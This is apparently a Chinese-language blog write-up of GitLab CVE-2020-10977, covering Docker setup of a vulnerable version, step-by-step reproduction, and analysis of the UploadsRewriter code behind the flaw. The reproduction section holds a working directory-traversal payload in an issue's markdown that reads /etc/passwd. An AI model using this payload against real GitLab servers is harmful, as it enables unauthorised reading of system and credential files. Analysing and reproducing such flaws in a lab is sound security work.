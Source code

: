 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞
toc: true
wrench: 2022-05-05
permalink: /about/GitLab-CVE-2020-10977/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
> 
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png](https://image.yjs2635.xyz/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
12.8.1-ee
```

### 零、CVE-2020-10977

### 0x01、CVE-2020-10977 漏洞概述

在Gitlab 8.5-12.9版本中，存在一处任意文件读取漏洞，攻击者可以利用该漏洞，在不需要特权的状态下，读取任意文件，造成严重信息泄露，从而导致进一步被攻击的风险。

### 0x02、影响版本

> GitLab GitLab CE/EE >=8.5 and <=12.9
>
> GitLab GitLab CE >=8.5，<=12.9

### 0x03、环境搭建

- [*点击以查看本地搭建漏洞版本*](https://atsud0.me/2021/03/09/CVE-2020-10977%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#0x01-%E7%8E%AF%E5%A2%83%E5%AE%89%E8%A3%85){:target="_blank"}
- 此处不多赘述

或者Docker：Replicating the GitLab CE 12.8.1 Environment

```bash
$ sudo apt install docker.io
$ docker pull gitlab/gitlab-ce:12.8.1-ce.0
$ docker run gitlab/gitlab-ce:12.8.1-ce.0
```

> It will take few mins to run the container to start, in a new terminal we can check the docker process and 
>
> simultaneously get a shell on it.

### 0x04、漏洞复现

- 1.在首页随便创建一个账号，然后登陆；
- 2.登录后创建两个project/仓库，名字随意；
- 3.两个project创建完成后，在test1中创建一个issues。填入payload；

```markdown
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

- 4.提交后，将这个创建好的issues move到前面创建好的另外一个project/仓库中；
  - 4.1 进入issues -> 编辑 -> 移动
- 5.点击passwd附件
- 6.enjoy

![2022-04-29-11.49.15.png](https://image.yjs2635.xyz/images/2022/04/29/2022-04-29-11.49.15.png)

### 一、CVE-2020-10977 思考

- 为什么移动issues的时候，可以读取到文件呢？

### 1x01、猜测

显而易见，当创建issues的时候，我们提交上去的markdown代码被解析成了html代码，即：

```html
<img src="https://git-lab-domain.com/ysoserial/ysoserial/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd" alt="a">
```

那么问题肯定出现在代码移动时，错误解析到了本地文件上，那么是哪里呢？

带着这样的疑问，去查看了相关的文章[Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
{:target="_blank"}和代码；

### 1x02、代码分析

作者提出：

- The UploadsRewriter does not validate the file name, allowing arbitrary files to be copied via directory traversal when moving an issue to a new project.
  The pattern used to look for references is :
- `UploadsRewriter`不验证文件名，允许在将问题移动到新项目时通过目录遍历复制任意文件，寻找引用的模式如下：

```ruby
  MARKDOWN_PATTERN = %r{\!?\[.*?\]\(/uploads/(?<secret>[0-9a-f]{32})/(?<file>.*?)\)}.freeze
```

`%r` 为正则表达，用法可以参考[*相关用法*](https://blog.csdn.net/weixin_30907935/article/details/94885961){:target="_blank"}

- This is used by the UploadsRewriter when copying an issue to also copy across the files:
- 在当拷贝issue时同时也能够实现能够跨文件复制，就是因为`UploadsRewriter`的使用：

```ruby
#/opt/gitlab/embedded/service/gitlab-rails/lib/gitlab/gfm/uploads_rewriter.rb:

   @text.gsub(@pattern) do |markdown|
          file = find_file(@source_project, $~[:secret], $~[:file])
          break markdown unless file.try(:exists?)

          klass = target_parent.is_a?(Namespace) ? NamespaceFileUploader : FileUploader
          moved = klass.copy_to(file, target_parent)
   ...
   def find_file(project, secret, file)
        uploader = FileUploader.new(project, secret: secret)
        uploader.retrieve_from_store!(file)
        uploader
      end
```



### 参考

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}

